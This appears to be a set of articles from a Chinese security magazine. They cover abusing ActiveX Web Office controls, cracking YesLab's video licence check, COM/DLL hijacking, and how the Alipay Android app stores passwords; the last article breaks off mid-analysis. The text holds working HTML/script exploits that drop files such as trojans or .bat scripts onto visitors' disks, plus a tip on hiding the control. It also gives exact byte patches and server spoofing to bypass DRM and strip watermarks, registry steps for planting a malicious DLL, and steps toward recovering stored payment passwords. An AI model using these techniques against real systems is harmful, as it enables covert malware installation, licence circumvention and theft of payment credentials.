Web Office 控件主要区分为服务器端和客户端两种，我们这里集中研究了一些客户端方面的 Web Office 控件，因为这一类控件主要安装在用户方，使用者数量较大，一旦出现安全隐患，危害范围较广。

在研究中，我们选取了百度中能够查询到的一些较为知名的 Web Office 控件作为案例，发现不少安全漏洞，这里拿出来与读者一起分享，只为讨论安全技术，请不要恶意利用，否则，作者与杂志概不负责。

江西的金格科技股份有限公司是国内专注于 Web Office 及安全签名方面的公司，知名度较高。从其官方网站上下载了“WebOffice2009 全文批注”组件，该组件包中包含了客户端的 Web Office 控件，我们成功注册该控件到系统后，利用 COMRaider 查看控件提供的外部接口，数量很多，如图 1 所示。


图 1

在查看这些外部接口的过程中，我们发现了一些有趣的名称：WebDownLoadFile、WebGetFile、WebFTPGetFile，这些外部接口名称都与网络有关系，我们猜测可以借助这些接口来实现远程对用户系统植入木马病毒程序。为了证明我们的猜测，现在利用 WebDownLoadFile 这个外部接口为研究对象，编写一段测试代码如下。

```html
<object id="evil"
classid="clsid:8B23EA28-2009-402F-92C4-59BE0E063499">
</object>
<script>
evil.WebDownLoadFile("http://www.baidu.com/index.htm","c:\\111.txt");
</script>
```

代码调用了 WebDownLoadFile 这个外部接口，第一个参数是需要远程下载的文件 URL 地址，第二个参数是本地保存被下载文件的完整路径名称。保存上述代码为“test.htm”文件，放置在本地或者远程搭建的 Web 服务环境当中，使用 IE 浏览器访问该网页后，我们发现了神奇的一幕，如图 2 所示。


图 2

看到了吗？在本地 C 盘下多出来一个“111.txt”文件，该文件就是百度首页的代码！这意味着，WebDownLoadFile 这个外部接口确实可以完成远程下载任意文件到本地任意目录的任务。于是，一种攻击方式就产生了：在远程服务器上放置一个木马病毒程序，然后，制作网页代码调用 WebDownLoadFile 这个外部接口，第一个参数就是远程木马病毒程序的网址，第二个参数就是用户系统上的启动目录，这样一来，用户一旦访问该网页，木马病毒程序就会悄悄地植入用户系统当中，当用户再次启动计算机时，木马病毒就会立即执行。

除此之外，我们发现，“iWebOffice2009 全文批注”组件包中提供的 WebOpenLocalFile 外部接口可以被恶意攻击者利用来判断用户系统中指定文件是否存在，起到攻击前的信息探测效果。我们编写一个简单的测试代码如下。

```html
<object id="evil"
 classid="clsid:8B23EA28-2009-402F-92C4-59BE0E063499">
</object>
<script>
  document.write(evil.WebOpenLocalFile("c:\\111.txt"));
</script>
```

测试代码中使用 document.write 将 WebOpenLocalFile 外部接口的调用结果打印出来，这里我们试图让 WebOpenLocalFile 外部接口打开本地磁盘 C 分区上的“111.txt”文件，效果如图 3 所示。


图 3

在图 3 的底部右方，我们看到了一个英文单词“true”，该单词意味着 WebOpenLocalFile 外部接口执行成功，也就是说本地磁盘 C 分区上存在一个名为“111.txt”的文件。这种显示方式，可以被利用来判断用户系统中安装了哪些应用程序及存在的文件，做一个详细的循环判断就可以成功获取到用户系统上的信息。

在图 3 中，我们发现浏览器中显示出了“金格科技 iWebOffice”的一个窗口界面，这样的界面如果出现在用户浏览器中有些过于显眼，毕竟恶意攻击者需要隐藏自己的攻击行为。为此，我们可以在代码中稍作修改来屏蔽这种显示，具体方法就是在“object”标签中插入“width=0 height=0”。

分析完金格科技的 iWebOffice，我们接下来看一看另外一家知名的 Web Office 控件——重庆软航科技的 NTKO Office 控件。该公司对控件的开发可谓丰富，产品主要以电子印章和办公支持为主。我们在测试中发现，该公司提供的“NTKO Office 文档控件企业版”存在一定安全隐患。举一个例子，该控件提供的两个外部接口：OpenFromURL 和 SaveAsOtherFormatFile 可以被恶意攻击者利用。首先，我们看一看 OpenFromURL 这个外部接口，它的作用主要是在浏览器中打开远程服务器上的 Office 文档文件，如图 4 所示。


图 4


图 5

图 4 是我们利用 OpenFromURL 这个外部接口打开的一个远程服务器上的 DOC 文档。如果能够将 DOC 文档的内容保存在本地磁盘上，那么我们就有可能会实现在用户系统上植入木马病毒。于是，我们找到了 SaveAsOtherFormatFile 这个外部接口，它的作用是将被打开的文档内容以指定的文件格式保存在本地磁盘当中。这里写了一段测试代码如下。

```html
<object id="evil"
 classid="clsid:A39F1330-3322-4A1D-9BF0-0BA2BB90E970">
</object>
<script>
 evil.OpenFromURL("http://127.0.0.1/test/1.doc");
 evil.SaveAsOtherFormatFile(0,"c:\\1.bat");
</script>
```

代码中先利用 OpenFromURL 打开一个远程 DOC 文档，接着将其保存到本地磁盘上文件名为“1.bat”。我们将测试代码保存为任意网页，并将其放置在远程或者本地搭建的 Web 服务器上。现在，用 IE 浏览器访问该测试网页后，我们观察本地 C 盘下的文件，如图 5 所示。

我们看到此刻 C 盘下多出了一个名为“1.bat”的文件，而且其内容为“cmd”，要知道这个“cmd”是我们在 1.doc 文件中保存的内容。真是完美的组合，SaveAsOtherFormatFile 只将被打开文档中的内容保存到本地磁盘，而不是将这个文档数据保存。这样，我们只需要把攻击代码写入一个 DOC 文档，将这个 DOC 文档放置在任意远程服务器上，甚至可以直接借助一些论坛，直接当附件上传上去都可以，不需要单独的服务器。然后，参照上面的测试代码，修改 OpenFromURL 的访问地址，就可以成功地在用户系统上创建代码恶意性质的任意文件了，将用户系统神不知鬼不觉地完全控制。

Web Office 控件的漏洞不仅仅是上述这些，说它们是漏洞从严格意义上讲其实也不算，我们只是巧妙地利用了这些控件提供的一些正常的外部接口，经过组合、搭配完成了对用户系统的渗透。但是，从另一方面讲，正是这些 Web Office 控件的存在影响着用户系统的整体安全性。要知道，上述这样的漏洞利用方式，杀毒软件是不会发现的，因为它们防范的是传统意义上的 heap spray 网页木马。随着办公自动化的发展，Web Office 控件在日常办公中占有一席之地，它们的安全性也不能不考虑，尤其是在网络内部安全体系中。希望国内制作 Web Office 控件的各大公司在看到这篇文章后，能够及时提高自身产品的安全性，提供出更完善、易用的产品。

## 巧妙破解 YesLab 联网认证视频


图/文 爱无言

YesLab 是国内高端 IT 培训的第一品牌，专注于培养 CISCO 网络高端人才，从其官方网站上可以了解到：YesLab 实现了 98% 的专业就业率，86% 的口碑入学率，学员平均毕业薪资 5000 元/首月。YesLab 理念是随需而学，开创了行业内的诸多第一。

正是因为这样的影响力，使得几乎国内想要考 CCNA、CCNP 的人们都会到 YesLab 进行培训，该培训机构提供了大量的教学视频，供学员们在课后自我学习使用。不过，YesLab 提供的教学视频与以往的视频文件不同，首先，想要播放这些视频文件必须有一个个人账户。

打开视频文件后，视频文件会提醒学员连接互联网，通过登录该个人账户，经过认证后，才能够播放教学视频。同时，YesLab 的视频文件为了防止复制，进行了自我保护，在播放视频文件的过程中不断弹出带有学员个人信息的字符串在屏幕上，禁止系统的复制功能，禁用 Print Screen 键截图功能。

即使我们使用额外的第三方视频录制软件，视频文件也都会给出警告提示，迫使学员自己强制关闭第三方视频录制软件。甚至，学员以后必须在第一次登录认证的计算机上播放这些教学视频文件，如果换一台计算机，都不会通过认证。

这样的保护功能，虽然有力地保护了教学视频的知识产权，但是，在某种程度上却过于限制了学员学习的方便性。举个例子来说，要是学员的计算机不能连接互联网，或者 YesLab 自己的网站出现问题，那么，岂不是说学员就无法实现自学了吗？为了想解决这个问题，我们对 YesLab 的教学视频文件进行了分析。

每一个视频文件分为两部分，一个是 exe 程序，另一个是 lic 文件，如图 1 所示。


图 1

初步猜测，lic 这个文件是教学视频的数据文件，而 exe 程序则为一个认证文件与播放器的合体。我们可以这样测试一下，将 lic 文件移除，用一个 avi 视频文件改名为与 exe 同名的 lic 文件，再次运行 exe 文件，如图 2 所示。


图 2

在单击几次显示出错误提示对话框后，我们看到了图 2 的画面，这意味着我们的猜测是正确的，而且，我们还能发现 YesLab 教学视频文件捆绑的播放器就是 Windows Media Player。接下来，我们需要重点分析 exe 程序，该程序完成了认证及版权保护的……所有功能。

用 WinHex 打开 exe 文件，我们发现 exe 文件存在两个 MZ 头，这意味着 exe 文件中存在另一个可执行程序。我们怀疑这个隐藏的可执行程序就是负责认证及版权保护的核心程序，如图 3 所示。


图 3

运行 exe 程序，借助第三方的监视软件或者利用系统自带的任务管理器，我们果然发现，一旦运行 exe，程序会出现两个进程，其中一个以数字为进程名，如图 4 所示。


图 4

现在，有两个办法获得这个进程文件：一个是利用内存 dump 文件，另一个是利用临时文件找出新生成的进程文件本身。利用文件监视软件，我们发现在运行主体 exe 程序后，会在 C 盘下的 china-drm 文件夹中出现新生成的临时可执行文件，也就是图 4 中那个进程的文件。为了简单，我们这里暂时称为 drm 文件。通过对临时文件的复制，我们获得了 drm 文件。

drm 文件的第一个认证目的就是连接互联网进行认证，如图 5 所示。


图 5

你可以采用监听数据包的方式获得 drm 文件访问的认证网址，其实也可以直接在图 5 的界面上右击，从弹出的快捷菜单中查看属性来获得。最终，我们知道了图 5 这个界面来自于 `http://lic.yeslab.net/license.asp?pid=ccip-bgp-s&code=xxxxxxxxxxxxxxxxxxxx-0000000000` 这个网址。于是，我们想到截获认证后服务器返回的信息，是不是就可以实现离网认证呢？借助一个已知的合法账户，我们进行了认证，并截获了服务器返回的数据。它的格式如下。

```html
<table width="282" border="0" align="center" cellpadding="0" cellspacing="0">
<tr>
<td height="73"><span class="STYLE1">正在打开, 请稍候......</span class="STYLE2"><br />

<script> var shytxt="xxxxxx xxxxx" </script>
<script> var pwd="xxxxxxxxxx"</script>
<script> var cut1="xxx"</script>

<script> var flvmkey="yeslab,2011,6"</script>
<script> var flvcut1="33333333333333"</script>
<script> var flvcut2="33333333333333"</script>
```

接下来，我们开始在本地搭建一个 Web 环境，并同时将 lic.yeslab.net 这个网址指向本机。我们在 Web 目录中放置了两个文件，它们分别是 `license.asp` 和 `get_license.asp`。`license.asp` 就是一个假的登录认证界面，模仿图 5 的样式，而 `get_license.asp` 文件的内容就是我们前面截获的认证后的返回数据。搭建好环境，我们断开网络开始运行 exe 程序，在出现如图 5 所示的界面后，随意输入认证信息，单击“确定”按钮，我们发现确实可以成功绕过联网认证，看到视频文件内容了。但是，当我们换一台计算机时，却发现上面的认证过程出现了问题，如图 6 所示。


图 6

造成上面错误的原因很简单，认证返回的信息中包含了机器码信息。当我们换台计算机播放教学视频的时候，虽然可以成功离线认证，但是程序再次进行机器码校验时出现了认证失败的错误。为此，我们还需要破解机器码校验这一关。拿出反汇编工具，将前面的 drm 文件放进去，通过简单的字符串查找，我们找到了关键比较点，如图 7 所示。


图 7

图 7 中的“JE SHORT 0049dbb3”这条指令决定着机器码校验成败的根本，我们如果将其修改为 JMP，一切校验也就永远成功了。但是，我们不能去修改 drm 文件，因为它是临时的，是由主体 exe 程序释放出来的。所以，我们应该去修改主体 exe 文件。借助 WinHex 查找“E80E7BF6FF”这个指令，将后面的“74 0F”修改为“75 0F”，保存。重新运行 exe 文件，离线认证后再次发现教学视频可以成功播放。

问题似乎到此结束了，我们实现了离线、不限计算机播放教学视频，目的好像也达到了。但是，有一个问题还是让人很恼火，就是教学视频播放过程中不断出现的学员信息水印，红色的字符串满屏幕到处出现。如果要去掉这个水印，我们又要反汇编分析半天。其实，完全不必这样辛苦，因为这个水印的来源就存在于离线认证返回的信息当中，也就是 `<script> var shytxt="xxxxxx xxxxx" </script>`。这段代码中的部分就是水印信息的来源。如果我们删除了这段内容，就会发现令人恼火的学员信息水印不见了，高清视频又回来了！

最后，对 YesLab 教学视频的认证破解，本文旨在讨论技术，请大家不要进行任何违法行为，否则，作者与杂志概不负责。YesLab 的本意是好的，但是在易用性方面还需要多考虑考虑，希望它能够采用更好的版权保护方式，既能够方便自己，也能够方便广大的学员们。

## 基于组件对象模型（COM）的劫持攻击技术

图/文 倪程


大家对臭名昭著的 DLL 劫持攻击技术一定有所耳闻，但基于此类攻击的演化形式，如 COM 组件栈缓冲区溢出漏洞攻击、COM 劫持及基于 COM-Server 的二进制植入等也开始崭露头角。本文参考了《The Anatomy of COM Server-Based Binary Planting Exploits》及 Soldatov 发表的《COM Hijacking, or DLL Hijacking come back》等相关文章，重点分析 COM 技术当前可能被利用的漏洞点。COM 组件是符合 COM 规范编写的组件。COM 是由 Microsoft 提出的组件标准，不仅提供了组件之间的接口标准，还引入了面向对象思想。在 COM 标准中，对象是某个类的实例，称为 COM 对象。接口是一组方法的集合，COM 组件为 COM 对象提供活动空间，COM 对象以 COM 接口方式提供服务。

- **Interface**：一个接口可以看做一组称为方法的函数。接口名以“I”打头，如“IShellFolder”；在 C++ 中接口是只含纯虚函数的抽象基类；coclass 即组件对象类，用来实现接口。
- **COM Server**：含有一个或多个 coclass 的二进制模块（DLL 或者 EXE）。
- **COM Library**：操作系统的一部分，负责与上层应用程序通信。
- **GUID**：全局唯一描述符，COM 规范使用 128 位 GUID 标识对象和接口；coclass 的类 ID 称为 CLSID，interface 的接口 ID 称为 IID。

### 1. 基于 COM-Server 的二进制植入攻击手法

Windows 存在所谓的虚拟文件夹，如控制面板、我的电脑等。这些虚拟文件夹都是由 Windows Shell 定义过的文件夹，它们并不会与电脑上的任何物理路径相对应。这些文件夹在 Windows 注册表中都有自己的 CLSID。如“我的电脑”对应的 CLSID 为“20D04FE0-3AEA-1069-A2D8-08002B30309D”，控制面板的 CLSID 为“21EC2020-3AEA-1069-A2DD-08002B30309D”。

通过 Win+R 组合键打开运行框 run，然后输入“::+CLSID”回车即可。此时，若我们创建一个名为 Test 的虚拟文件夹，CLSID 值为“20D04FE0-3AEA-1069-A2D8-08002B30309D”，系统将会显示一个“My Computer”图标；进一步，若我们尝试打开此文件夹，实际上进入到了“我的电脑”。我们从 InProcServer32 子键中可以观察到，“我的电脑”引用了 shell32.dll 文件，如图 1 所示。


图 1

从上面的理论可以推断，当我们单击自己创建的一个虚拟文件夹时，系统会调用其应用的 DLL 文件。显然，我们可以利用这种调用方式，实现进程注入。

（1）Windows COM 服务器概述。Windows COM 服务器包含两种类型，分别为进程内服务器（in-process）和进程外服务器。进程内服务器其实就是一个动态链接库 DLL，通过 COM 客户端调用函数 CoCreateInstance()，并传递组件对象类的 CLSID 及所要接口的 IID 来实例化，然后 COM 服务器会在 HKEY_CLASSES_ROOT\CLSID 键值下查找服务端的 CLSID 键值，并读取 InProcServer32 子键下对应的 DLL 文件路径，然后将此 DLL 文件加载到进程空间。

COM 模型中，客户程序通过接口获得对象的服务。每个接口由一个 128 位的全局唯一标识符 IID 来标示，客户端通过 IID 获得接口指针，再通过接口指针调用相应的接口成员函数。COM 规范使用 IDL（接口描述语言）来定义 COM 接口。客户端程序用一个指向接口的指针来调用接口方法，接口指针又指向另一个指针（pVtable），pVtable 指向接口函数表（vtable）。

（2）COM 服务器攻击利用。根据上面的分析，若存在以下两个条件则可以实现 COM Server 的漏洞利用：其一，DLL 文件路径为相对路径；其二，LoadLibrary 函数没有搜索并加载到此 DLL 文件。这两个条件在很多情形下会出现，如并行执行（side-by-side）组件要求 DLL 文件以相对路径方式出现；甚至还有些软件在卸载时没有删除 COM Servers，使得一些用户电脑上保留了 COM Server DLL 一些可被利用的东西。而且，以 side-by-side COM 组件为例，即使 COM Server 被原应用程序调用时，DLL 成功找到并被加载；但若另一个应用也尝试调用同一个 COM Server，则它不会寻找此 DLL，而最终尝试在当前工作目录下寻找此 DLL 文件，此时就正好达到了攻击者的意图了。

在 Windows XP 系统中，我们可以找到一个命名为“Display Panning CPL Extension”的进程内 COM 服务器，对应的 CLSID 为 `{42071714-76d4-11d1-8b24-00a0c9068ff3}`，对应的子键 InProcServer32 下指向的 DLL 文件为 `deskpan.dll`，一个相对路径值，且好像在任何 XP 系统上都无法找到此 DLL 文件。这个文件正好符合上述描述的两个攻击条件，可被利用。Windows 7 系统中同样存在类似案例，即注册表 CLSID 子键下标识为 `{2E095DD0-AF56-47E4-A099-EAC038DECC24}` 的 COM，其对应的 DLL 文件为 `PsisDecd.dll`。当应用程序初始化 COM Server 时，系统会自动加载此 DLL 文件，但 DLL 会迅速调用 `LoadLibrary("ehTrace.dll")` 函数，然而若应用程序不在 `C:\Windows\ehome` 目录下时，程序将无法找到此文件，迫使其会在程序当前目录下寻找此文件。

### （3）漏洞攻击实例分析

首先我们需要手工创建一个 CLSID，并输入必须的数据要素，命令如下。

```reg
[HKEY_CLASSES_ROOT\CLSID\{42071714-76d4-11d1-8b24-00a0c9068ff3}]
[HKEY_CLASSES_ROOT\CLSID\{42071714-76d4-11d1-8b24-00a0c9068ff3}\InProcServer32]
@="deskpan.dll"
"ThreadingModel"="Apartment"
```

然后，创建一个名为 `{42071714-76d4-11d1-8b24-00a0c9068ff3}` 的文件夹，并将我们事先构造好的恶意 DLL 文件命名为 `deskpan.dll`，放到该文件夹下。同时，在文件夹下创建一个 RTF 文档，此时若我们尝试打开此文件，系统会有什么反应呢？通过 ProcessMonitor 工具监控发现，系统仅仅是尝试在 verclsid.exe 进程内搜索 `deskpan.dll` 文件，并不会在工作目录下加载恶意 DLL，如图 2 所示。


然而，当我们变换一种方式将文件命名为 verclsid.exe 时，再次打开此文件时，前面描述的漏洞利用就发生了，如图 3 所示。


### 2. COM 漏洞利用攻击条件

在分析 COM 漏洞利用攻击条件时，还是先简单描述一下进程内 COM 对象的创建过程。

- 1. 调用 CoInitialize 函数初始化 COM 库（任一线程若需使用 COM 库，都必须调用 CoInitialize 函数初始化）。
- 2. 调用 CLSIDFromProgID 函数在注册表中寻找对应的 GUID，获取到注册表的 CLSID。
- 3. 调用 CoGetClassObject 函数，读取服务器 DLL 的全路径并将 DLL 加载到客户端的进程空间，然后再调用 DllGetClassObject() 函数为所请求的组件对象类请求类工厂，返回工厂对象接口指针 pCif。
- 4. 调用 `pCif->CreateInstance(NULL, (void**)&pUnknown)` 方法创建客户端程序请求的 COM 对象，函数调用成功后，返回指向 COM 对象的指针 pUnknown。
- 5. 调用 QueryInterface 函数找到特定对象的指针，接下来就是对对象使用了。

从上面的分析来看，最为重要的函数是 IQueryClassInterface(IN LPCWSTR pszCLSID, IN LPCWSTR ppv)；IQueryInterface()（简称 QI()）。由客户端程序调用此函数从 COM 对象请求不同的接口，包含两个参数，分别为所请求的接口 IID 和指针的缓冲。如果查询成功，QI() 将接口指针地址存储到缓冲指针 ppv。图 4 给出了打开 RTF 文档时，系统传递给 verclsid.exe 进程的参数值。

```
>>> COM-DLL-fake: CSomeFactory::Release
>>> COM-DLL-fake: CSomeFactory::CreateInstance
>>> COM-DLL-fake: CSomeCoClass::CSomeCoClass
>>> COM-DLL-fake: CSomeCoClass::QueryInterface
>>> COM-DLL-fake: CSomeCoClass::Release
>>> COM-DLL-fake: CSomeFactory::Release
>>> COM-DLL-fake: CSomeFactory::~CSomeFactory
>>> COM-DLL-fake: CSomeCoClass::QueryInterface
>>> COM-DLL-fake: CSomeCoClass::Release
>>> COM-DLL-fake: CSomeCoClass::QueryInterface
>>> COM-DLL-fake: CSomeCoClass::Release
>>> COM-DLL-fake: CSomeCoClass::CSomeCoClass
>>> COM-DLL-fake: DllMain: process = C:\WINDOWS\Explorer.EXE
>>> COM-DLL-fake: DllMain: process = C:\WINDOWS\Explorer.EXE
>>> COM-DLL-fake: DllMain: process = C:\WINDOWS\Explorer.EXE
...
```


图 4

其中，“/S”为 OLE32!CoInitializeEx 函数设置 COINIT_APARTMENTTHREADED 标识；“/C”设置了组件对象类的 GUID 标识；“I”为组件类对象设置接口，即 IShellFolder；“X”为设置组件对象类运行的上下文标识。对这些标识感兴趣的读者可参考 http://msdn.microsoft.com/。当应用程序接收到上述参数后，系统调用 OLE32!CoInitializeEx 函数初始化 COM 对象，即：

```
CoCreateInstance("{42071714-76D4-11D1-8B24-00A0C9068FF3}", NULL,
CLSCTX_INPROC_SERVER|CLSCTX_NO_CODE_DOWNLOAD, "{000214E6-0000-0000-C000-000000000046}",
&ppv);
```

调用成功后将返回 COM 对象指针，随后调用 QueryInterface 函数，查找需要的对象指针。这里可伪造 verclsid.exe 的 CLSID，即调用 `ppv->QueryInterface("{9B45E435-34A9-4E6B-A2A1-B0ECD284967C}", &ppvObject)`。当调用成功后，程序会调用 OLE32!CoUninitialize 函数，销毁 COM 并退出，这正是我们所需要的。然后，将 DLL 文件放置到 `C:\Documents and Settings\Administrator` 目录下，再次打开 RTF 文档，可以观察到以下调试信息。

```
>>> COM-DLL-fake: DllMain: process = C:\WINDOWS\system32\verclsid.exe
>>> COM-DLL-fake: DllGetClassObject
>>> COM-DLL-fake: CSomeFactory::CSomeFactory
>>> COM-DLL-fake: CSomeFactory::AddRef
>>> COM-DLL-fake: CSomeFactory::QueryInterface
>>> COM-DLL-fake: CSomeFactory::AddRef
```

从上面的调试信息可知，DLL 文件必须定位到 explorer.exe 进程的工作目录下。

### 3. 结论

本文介绍了一种基于 COM 的 DLL 劫持技术，其主要特点是在组件被驱动运行时，根据错误注入的类型在进程中对组件和操作系统交互的相应 API 进行拦截。采用的技术是用预先定义的伪 DLL 替换系统 DLL。根据环境错误注入测试要求，预先编写一些同名的伪 DLL。根据错误注入类型，对不需要拦截的 API 函数直接把参数传递给系统 DLL 对应的 API 函数处理并返回结果；对需要拦截的 API，则在伪 DLL 中添加拦截代码进行拦截，同时注入错误。除了上述攻击手法外，读者还可以考虑对 COM 组件调用栈进行分析，获取函数之间的调用关系及被调用函数的详细信息，从而对一些高危函数进行溢出攻击等。

## 手机支付宝密码存储机制分析


图/文 非虫

随着电子商务在国内的迅猛发展，网上购物也成为时下流行的消费方式。就我个人来说，每年在淘宝上也会购物达上百次。这足不出户的购物方式的确给我们的生活带来了不少实惠与方便，但同时，购物安全也成了广大网购消费者担心的一个问题。每年在新闻中曝光的网银被盗、被骗的事件也屡见不鲜。

长期使用网络客户端软件的朋友都有一个习惯，即为了避免每次使用时输入账号和密码，都习惯使用软件的自动保存密码功能来记住登录密码，这样下次直接单击登录按钮就可以登录了（有些软件直接跳过了登录确认的界面）。这样，一个安全问题就出来了：软件为我们保存的密码是明文存储的吗？如果加密了，加密强度怎样？外部用户可以直接破解吗？试想一下，像支付宝这类敏感的网银软件，如果本地存储的密码被人直接破解，那后果是很难预料的！而随着我对支付宝程序的逆向分析，也证明了这个安全问题确实存在。在此声明：以下文章涉及的代码与分析内容仅供安卓系统安全学习交流，任何个人或组织不得使用文中提到的技术进行违法犯罪活动，否则由此引发的任何后果与法律责任本人概不负责。

今天的分析也采用类似的方法，先看看软件运行后的“症状”。打开支付宝软件，单击右上角的登录按钮，分别使用淘宝与支付宝账号登录，勾选“自动保存密码”复选框，如图1所示。


退出软件，然后重新登录，发现软件的确记住了保存的密码，而且密码框显示“星星”的位数与实际的密码位数一样，这说明密码肯定是保存在本地的某个文件中，而且程序启动时读取密码，然后设置到密码框中。

下面，请出 DDMS，进入支付宝数据目录“/data/data/com.eg.android.AlipayGphone/”，里面的文件结构如图2所示。


### 1. 测试环境

- 一台安装有支付宝的安卓手机，并且能获得 ROOT 权限。
- 支付宝的版本为 3.4.0.0229。
- 程序运行后使用了自动保存密码功能。为了测试得更详细，我分别保存了支付宝与淘宝的账号密码。

### 2. 程序分析

在 DataBase 目录里有个 RecentDB 文件，初步判断它使用的是 Sqlite3 保存的数据库，将该文件导出到 D 盘根目录，进行命令行操作，使用 Android SDK 里面的 Sqlite3.exe 打开该数据库并分别执行“.tables”、“.schema RecentTable2”、“select * from RecentTable2”命令，执行后结果如图3所示。


图3

真是不看不知道，一看吓一跳，原来账号名与密码直接保存在了这个数据库中！只是密码被加过密，看后面的“==”还以为是 Base64，可测试后发现不是。退出支付宝程序将它卸载并重新安装，重新运行软件一次后退出，将刚才导出的“RecentDB”文件导入，再次运行支付宝后发现软件登录框中账号名与密码都记住了！接下来为手机换一张电话号码卡，重新进入程序发现密码框为空了。同样，在其他安卓手机上安装支付宝后导入 RecentDB 文件，密码框也为空。看来，支付宝对使用者手机与电话号码有所判断。

使用 ApkTool 将支付宝 APK 安装文件解压，打开“AndroidManifest.xml”文件，将“android:name”一栏的 android:debuggable="false" 改成 android:debuggable="true"，然后重新编译签名并安装，打开 DDMS，在 LogCat 中新建一栏，设置“Filter Name”与“by Application Name”为“com.eg.android.AlipayGphone”，如图4所示。


图4

启动程序，这时就可以在 DDMS 中查看支付宝的 Log 输出了。运行程序后单击登录按钮进入到登录界面，在界面任意处单击几下，发现拦截到的消息如图5所示。


图5

由 Log 输出信息得知，程序所在的 Activity 为“com.alipay.android.client.Login”，在反编译出的 Smali 文件夹中找到“Login.smali”文件，并查看 OnCreate() 方法。代码太长，此处只贴关键部分。

```smali
.method public onCreate(Landroid/os/Bundle;)V
    .locals 6

    const/4 v5, 0x1
    const/4 v4, 0x0
    invoke-super {p0, p1}, Lcom/alipay/android/client/RootActivity;->onCreate(Landroid/os/Bundle;)V

    invoke-static {p0}, Lcom/alipay/android/appHai/h;->a(Landroid/app/Activity;)Z
    new-instance v0, Lcom/alipay/platform/a/b;

    const-string v1, "logintype"
    invoke-virtual {v0, v1}, Lcom/alipay/android/client/a/o;->a(Ljava/lang/String;)Ljava/lang/String;
    move-result-object v0

    const-string v1, "taobao"
    invoke-virtual {v0, v1}, Ljava/lang/String;->equals(Ljava/lang/Object;)Z
    move-result v0

    if-eqz v0, :cond_3
    iput-boolean v5, p0, Lcom/alipay/android/client/Login;->k:Z
    iput-boolean v4, p0, Lcom/alipay/android/client/Login;->l:Z
```

《漏洞攻防》

```smali
iget-object v0, p0,
Lcom/alipay/android/client/Login;->K:Landroid/widget/Button;
invoke-virtual {v0, v4},
Landroid/widget/Button;->setSelected(Z)V
iget-object v0, p0,
Lcom/alipay/android/client/Login;->L:Landroid/widget/Button;
invoke-virtual {v0, v5},
Landroid/widget/Button;->setSelected(Z)V
iget-object v0, p0,
Lcom/alipay/android/client/Login;->v:Landroid/widget/AutoCompleteTextView;
const v1, 0x7f0a0010
invoke-virtual {v0, v1},
Landroid/widget/AutoCompleteTextView;->setHint(I)V
#设置输入框的提示
:goto_0
invoke-direct {p0},
Lcom/alipay/android/client/Login;->d()V # 关键方法
iget-object v0, p0,
Lcom/alipay/android/client/Login;->D:Landroid/widget/CheckBox;
new-instance v1, Lcom/alipay/android/client/cx;
invoke-direct {v1, p0},
Lcom/alipay/android/client/cx;-><init>(Lcom/alipay/android/client/Login;)V
invoke-virtual {v0, v1},
Landroid/widget/CheckBox;->setOnClickListener(Landroid/view/View$OnClickListener;)V
return-void
:cond_3
iput-boolean v4, p0,
Lcom/alipay/android/client/Login;->k:Z
iput-boolean v5, p0,
Lcom/alipay/android/client/Login;->l:Z
iget-object v0, p0,
Lcom/alipay/android/client/Login;->K:Landroid/widget/Button;
invoke-virtual {v0, v5},
Landroid/widget/Button;->setSelected(Z)V
iget-object v0, p0,
Lcom/alipay/android/client/Login;->L:Landroid/widget/Button;
invoke-virtual {v0, v4},
Landroid/widget/Button;->setSelected(Z)V
iget-object v0, p0,
Lcom/alipay/android/client/Login;->v:Landroid/widget/AutoCompleteTextView;
const v1, 0x7f0a0011
invoke-virtual {v0, v1},
Landroid/widget/AutoCompleteTextView;->setHint(I)V #设置输入框的提示
goto :goto_0
.end method
```

```smali
iget-object v1, p0,
Lcom/alipay/android/client/Login;->I:Landroid/widget/Button;
invoke-virtual {v1, v4},
Landroid/widget/Button;->setVisibility(I)V
#设置为 View.VISIBLE
iget-object v1, p0,
Lcom/alipay/android/client/Login;->H:Landroid/widget/TextView;
invoke-virtual {v1, v4},
Landroid/widget/TextView;->setVisibility(I)V
#设置为 View.VISIBLE
iget-boolean v1, p0,
Lcom/alipay/android/client/Login;->P:Z
if-nez v1, :cond_3
iget-object v1, p0,
Lcom/alipay/android/client/Login;->d:Landroid/widget/RelativeLayout;
invoke-virtual {v1, v2},
Landroid/widget/RelativeLayout;->setVisibility(I)V #设置为 View.GONE
:goto_0
iget-object v1, p0,
Lcom/alipay/android/client/Login;->j:Lcom/alipay/android/client/aA; #获取 j 对象
invoke-virtual {v1, v0},
Lcom/alipay/android/client/aA;->a([Ljava/lang/String;)Lcom/alipay/android/client/ho;
move-result-object v0
if-nez v0, :cond_0 #检查有没有"alipay"类型登录的用户
new-instance v0, Lcom/alipay/android/client/ho;
invoke-direct {v0},
Lcom/alipay/android/client/ho;-><init>()V
:cond_0
iget-object v1, p0,
Lcom/alipay/android/client/Login;->v:Landroid/widget/AutoCompleteTextView;
const-string v2, ""
invoke-virtual {v1, v2},
Landroid/widget/AutoCompleteTextView;->setText(Ljava/lang/CharSequence;)V
#将用户名输入框清空
iget-object v1, p0,
Lcom/alipay/android/client/Login;->x:Landroid/widget/EditText;
const-string v2, ""
invoke-virtual {v1, v2},
Landroid/widget/EditText;->setText(Ljava/lang/CharSequence;)V
#将密码输入框清空
iget-object v1, p0,
Lcom/alipay/android/client/Login;->D:Landroid/widget/CheckBox;
invoke-virtual {v1, v4},
Landroid/widget/CheckBox;->setChecked(Z)V #设置“记住登录密码”选择状态
iget-object v1, p0,
Lcom/alipay/android/client/Login;->v:Landroid/widget/AutoCompleteTextView;
const/16 v2, 0x64
invoke-virtual {v1, v2},
Landroid/widget/AutoCompleteTextView;->setThreshold(I)V
```

在 OnCreate() 方法中，设置了控件的显示、提示及监听器，而后判断登录类型并设置“支付宝会员”或“淘宝会员”按钮的选择状态，在这期间调用了 d() 方法，账号名与密码就被显示了出来。d() 方法代码如下。

```smali
.method private d()V
.locals 5
const/16 v2, 0x8    #设置为 View.GONE
const/4 v4, 0x0     #设置不选中或 View.VISIBLE
iget-boolean v0, p0,
Lcom/alipay/android/client/Login;->k:Z
if-nez v0, :cond_5 #检查用户类型
const-string v0, "alipay"
```

## 漏洞攻防

```text
Lcom/alipay/android/client/Login;->v:Landroid/widget/AutoCompleteTextView;
    iget-object v2, v0,
Lcom/alipay/android/client/ho;->a:Ljava/lang/String; # ho.a 为用户名
    # 将 ho.a 中的用户名设置到用户名输入框
    invoke-virtual {v1, v2},
Landroid/widget/AutoCompleteTextView;->setText(Ljava/lang/CharSequence;)V
...
Lcom/alipay/android/client/d/b;->L:Ljava/lang/String; # 解密密钥
